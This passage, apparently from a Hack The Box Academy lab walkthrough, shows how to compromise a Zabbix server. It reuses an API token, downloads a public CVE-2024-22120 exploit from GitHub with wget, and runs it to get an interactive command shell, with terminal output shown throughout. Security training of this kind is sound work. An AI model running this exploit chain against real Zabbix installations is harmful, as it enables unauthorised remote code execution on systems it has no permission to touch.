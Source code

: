 ```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-160mjd9rc6]─[~]
└──╼ [★]$ curl -X POST -H "Content-Type: application/json" -d '{
      "jsonrpc": "2.0",
      "method": "host.get",
      "params": {
         "output": ["hostid", "host"]
       },
      "auth": "9774be870f7d20bae61866f77edcfa7c",
      "id": 1 }' http://10.129.231.23/api_jsonrpc.php
  
{"jsonrpc":"2.0","result":[{"hostid":"10084","host":"Zabbix server"}],"id":1}
```

Next, students will download the Python3 [exploit](https://github.com/W01fh4cker/CVE-2024-22120-RCE/blob/main/CVE-2024-22120-RCE.py) locally and install the `pwn` library using `pip3` to perform the Time-Based Blind SQL Injection:

Code: shell

```shell
wget -q https://raw.githubusercontent.com/W01fh4cker/CVE-2024-22120-RCE/refs/heads/main/CVE-2024-22120-RCE.py
pip3 install pwn
```

```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-160mjd9rc6]─[~]
└──╼ [★]$ wget -q https://raw.githubusercontent.com/W01fh4cker/CVE-2024-22120-RCE/refs/heads/main/CVE-2024-22120-RCE.py

┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-160mjd9rc6]─[~]
└──╼ [★]$ pip3 install pwn

Defaulting to user installation because normal site-packages is not writeable
Collecting pwn
  Downloading pwn-1.0.tar.gz (1.1 kB)
  Preparing metadata (setup.py) ... done
Requirement already satisfied: pwntools in /usr/local/lib/python3.11/dist-packages (from pwn) (4.13.1)
Requirement already satisfied: paramiko>=1.15.2 in /usr/local/lib/python3.11/dist-packages (from pwntools->pwn) (3.5.0)

<SNIP>
```

Students will use the exploit to obtain remote code execution on the target using the previously obtained token (`sid`) and hostid:

Code: shell

```shell
python3 CVE-2024-22120-RCE.py --ip STMIP --sid 9774be870f7d20bae61866f77edcfa7c --hostid 10084
```

```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-160mjd9rc6]─[~]
└──╼ [★]$ python3 CVE-2024-22120-RCE.py --ip 10.129.231.23 --sid 9774be870f7d20bae61866f77edcfa7c --hostid 10084

(!) sessionid=0b1ab84721d989c27e3214af2959f254989c27e3214af2959f254
[zabbix_cmd]>>: 
```
